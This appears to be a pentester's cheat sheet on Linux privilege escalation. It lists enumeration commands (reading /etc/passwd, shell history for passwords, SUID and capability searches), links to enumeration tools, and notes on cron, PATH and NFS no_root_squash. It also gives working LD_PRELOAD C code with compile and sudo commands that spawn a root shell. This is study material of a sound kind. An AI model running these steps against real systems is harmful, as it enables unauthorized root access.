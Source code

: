 # Linux PrivEsc

## Important files

`/proc/version` = may give you information on the kernel version and additional data such as whether a compiler (e.g. GCC) is installed.

`/etc/issue` = This file usually contains some information about the OS but can easily be customized or changed

`/etc/passwd` = Shows users on the system



Cat users with home directory

```bash
cat /etc/passwd | grep home
```

## Important commands

`hostname` = get **hostname** of target

`uname -a` = Print system info + **kernel** info

`ps` = See running processes in Linux

* `ps -A` = View all running processes
* `ps axjf` = View process tree
* `ps aux` = Show processes for all users, display the user that launched the process, and show the processes that are not attached to a terminal

`env` = Show **environment** variables

* The PATH variable may have a compiler or a scripting language (e.g. Python) that could be used to run code on the target system or leveraged for privilege escalation.

`sudo -l` = List **all commands** user can run using **sudo**

`id` = provide a general overview of the **user's privilege level** and **group memberships**

`history` = History file might have some **passwords** or **usernames** inside

`netstat` = Gather information on existing connections

* `netstat -a` shows all listening ports and established connections
* `netstat -at` or `netstat -au` can also be used to list TCP or UDP protocols respectively.
* `netstat -l`: list ports in “listening” mode. These ports are open and ready to accept incoming connections. This can be used with the “t” option to list only ports that are listening using the TCP protocol&#x20;
* `netstat -s`: list network usage statistics by protocol (below) This can also be used with the `-t` or `-u` options to limit the output to a specific protocol.
* `netstat -tp`: list connections with the service name and PID information.
* `netstat -i`: Shows interface statistics.
* The `netstat` usage you will probably see most often in blog posts, write-ups, and courses is `netstat -ano` which could be broken down as follows;
  * `-a`: Display all sockets
  * `-n`: Do not resolve names
  * `-o`: Display timers

Find

* `find . -name flag1.txt`: find the file named “flag1.txt” in the current directory
* `find /home -name flag1.txt`: find the file names “flag1.txt” in the /home directory
* `find / -type d -name config`: find the directory named config under “/”
* `find / -type f -perm 0777`: find files with the 777 permissions (files readable, writable, and executable by all users)
* `find / -perm a=x`: find executable files
* `find /home -user frank`: find all files for user “frank” under “/home”
* `find / -mtime 10`: find files that were modified in the last 10 days
* `find / -atime 10`: find files that were accessed in the last 10 day
* `find / -cmin -60`: find files changed within the last hour (60 minutes)
* `find / -amin -60`: find files accesses within the last hour (60 minutes)
* `find / -size 50M`: find files with a 50 MB size

Find files permission based on permissions

* `find / -writable -type d 2>/dev/null` : Find world-writeable folders
* `find / -perm -222 -type d 2>/dev/null`: Find world-writeable folders
* `find / -perm -o w -type d 2>/dev/null`: Find world-writeable folders



* `find / -perm -o x -type d 2>/dev/null` : Find world-executable folders



Find development tools and supported languages:

* `find / -name perl*`
* `find / -name python*`
* `find / -name gcc*`



SUID

```bash
find / -perm -u=s -type f 2>/dev/null
```

## Automated Enumeration Tools

* LinPeas:&#x20;

{% embed url="https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS" %}

* LinEnum:&#x20;

{% embed url="https://github.com/rebootuser/LinEnum" %}

* LES (Linux Exploit Suggester):

{% embed url="https://github.com/mzet-/linux-exploit-suggester" %}

* Linux Smart Enumeration:

{% embed url="https://github.com/diego-treitos/linux-smart-enumeration" %}

* Linux Priv Checker:

{% embed url="https://github.com/linted/linuxprivchecker" %}

## Kernel Exploits

1. Based on your findings, you can use **Google** to search for an existing exploit code.
2. Sources such as this can also be useful:

{% embed url="https://www.linuxkernelcves.com/cves" %}

3. Another alternative would be to use a script like **LES (Linux Exploit Suggester)** but remember that these tools can generate false positives (report a kernel vulnerability that does not affect the target system) or false negatives (not report any kernel vulnerabilities although the kernel is vulnerable).

## Sudo

{% embed url="https://gtfobins.github.io/" %}

### LD\_PRELOAD

The steps of this privilege escalation vector can be summarized as follows;

1. Check for LD\_PRELOAD (with the env\_keep option)
2. Write a simple C code compiled as a share object (.so extension) file
3. Run the program with sudo rights and the LD\_PRELOAD option pointing to our .so file

The C code will simply spawn a root shell and can be written as follows;

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

We can save this code as shell.c and compile it using gcc into a shared object file using the following parameters;

`gcc -fPIC -shared -o shell.so shell.c -nostartfiles`

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1)  (84).png" alt=""><figcaption></figcaption></figure>

We can now use this shared object file when launching any program our user can run with sudo. In our case, Apache2, find, or almost any of the programs we can run with sudo can be used.

We need to run the program by specifying the LD\_PRELOAD option, as follows;

`sudo LD_PRELOAD=/home/user/ldpreload/shell.so find`

This will result in a shell spawn with root privileges.

## SUID

`find / -type f -perm -4000 2>/dev/null`

## Capabilities

`getcap` = List enabled capabilities

`getcap -r / 2>/dev/null` = Redirect errors when using running this command as unprivileged user

## Cron Jobs

`/etc/crontab` = Cron jobs file

## Path

See Path Variable: `echo $PATH`

You can use C scripts with system() function in this privesc method

## NFS

`cat /etc/exports` = See NFS (Network File Sharing) configuration

Look out for **no\_root\_squash** option

`showmount -e [IP_ADDR]` = Enumerate mountable shares

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1)  (85).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1)  (42).png" alt=""><figcaption></figcaption></figure>

As you can set SUID bit, you generate a C code and compile it. It automatically is also visible on the mounted directory on target

